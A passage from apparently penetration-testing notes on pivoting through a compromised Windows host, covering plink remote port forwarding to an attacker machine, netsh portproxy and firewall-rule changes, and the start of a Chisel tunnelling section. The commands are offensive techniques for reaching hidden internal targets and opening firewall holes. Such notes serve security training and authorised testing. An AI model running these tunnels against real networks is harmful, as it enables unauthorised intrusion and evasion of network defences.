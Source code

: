 Download to perimeter target, then:

```
// Note, should maybe make a port-forwarding only user since the password can get logged here when using remote port forwarding.

C:\Users\target> .\plink.exe -ssh -l link -pw yeahlikeimwritingthathere -R 127.0.0.1:<SSHPORT>:<TARGET_IP>:<RPORT> <ATTACKER_IP>
```

This will ask for a SSH key cache prompt (the yes/no question). In some shells, we might not be able to type y if the TTY is not interactive, so we will need to try something like:

```
C:\User\target> cmd.exe /c echo y | .\plink.exe -l link -pw fakemake123 -R 127.0.0.1:<SSHPORT>:<TARGET_IP>:<RPORT> <ATTACKER_IP>
```

- Remember \<SSHPORT\> is the one listening on attacker machine loopback interface and it's where the port forward starts (check "SSH Remote Port Forwarding Section" above). It's where we send commands to to connect to the hidden target machine.

### Netsh

Netsh is native to Windows, but requires administrative privileges. This also means UAC comes into effect, so will be much more likely to work over RDP than raw shells.

Uses *portproxy* subcontext of *interface* context.

```
C:\> netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=<EXTERNAL_FACING_INTERFACE> connectport=<RPORT> connectaddress=<TARGET_IP>
```

To confirm:
```
C:\Users\Administrator> netsh -anp TCP | find "<LPORT>"
C:\Users\Administrator> netsh interface portproxy show all
```

Sometimes, we might run into firewall issues. If we have admin rights, then we might as well try bending the rules:

```
C:\Users\Administrator> netsh advfirewall firewall add rule name="<DESCRIPTIVE-RULE-NAME>" protocol=TCP dir=in localip=<EXTERNAL_FACING_INTERFACE> localport=<LPORT> action=allow
```

Remember to delete the rule when we're finished, with

```
C:\Users\Administrator> netsh advfirewall delete rule name="<THAT_DESCRIPTIVE_RULE_NAME>"
```


## Chisel

HTTP Tunnelling: It's similar to SSH tunnelling, but we're hiding our communication in a HTTP tunnel.
